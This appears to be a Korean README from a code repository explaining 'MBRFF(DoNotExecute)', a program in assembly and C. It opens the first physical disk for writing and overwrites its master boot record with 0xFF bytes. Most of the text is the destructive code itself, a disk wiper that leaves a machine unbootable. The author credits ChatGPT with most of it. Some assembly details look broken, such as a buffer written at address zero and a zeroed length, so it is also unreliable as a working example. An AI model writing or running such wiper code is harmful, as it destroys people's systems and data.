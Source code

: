 # MBRFF(DoNotExecute).asm
이 프로그램은 MBRFF(DoNotExecute).py를 기반으로 어셈블리어로 제작성한 파일입니다. 작동방법은 MBRFF(DoNotExecute).py와 같습니다.

~~어셈블리어를 공부하기위해 만들었긴 했지만 chatgpt 지분 99%..~~
```asm
disk_path db '\\.\PhysicalDrive0', 0
```
disk_path는 문자열로 물리적 디스크에 대한 경로(\\\\.\\PhysicalDrive0)를 지정합니다. 이 경로는 시스템의 첫 번째 물리적 드라이브에 접근하도록 지정합니다.


```asm
push 0
push 0
push 3
push 0
push 0x40000000
push disk_path
call [CreateFileA]

```
위 스니펫은 Windows API의 CreateFileA를 호출하여 디스크에 접근합니다. 
접근 모드는 GENERIC_WRITE로 설정되어, 디스크에 데이터를 쓸 권한을 요청합니다.

```asm
mov ecx, 512
xor edi, edi

.fill_buffer:
    mov byte [edi], 0xFF
    inc edi
    loop .fill_buffer
```

512바이트의 버퍼를 준비하고, 각 바이트들을 0xFF로 지정합니다. 이 버퍼는 WriteFile을 사용하여 MBR이 이 버퍼로 덮어쓰기됩니다.


```asm
push 0
push ecx
push edi
push eax
call [WriteFile]
```
위 fill_buffer에 있는 데이터로 디스크 첫번째 섹터(MBR)에 덮어씁니다.


# MBRFF(DoNotExecute).c
이 프로그램은 MBRFF(DoNotExecute).py를 기반으로 어셈블리어로 제작성한 파일입니다. 작동방법은 MBRFF(DoNotExecute).py와 같습니다.


```c
HANDLE hDisk = CreateFile("\\\\.\\PhysicalDrive0", GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
```
CreateFile함수를 사용하여 \\.\PhysicalDrive0 드라이블를 Generic_write모드로 엽니다.


```c
BYTE buffer[512];
memset(buffer, 0xFF, sizeof(buffer));
BOOL result = WriteFile(hDisk, buffer, sizeof(buffer), &bytesWritten, NULL);
```

버퍼를 512바이트로 생성후 0xFF로 초기화하고, WriteFile을 사용하여 디스크 MBR위치에 덮어씁니다.
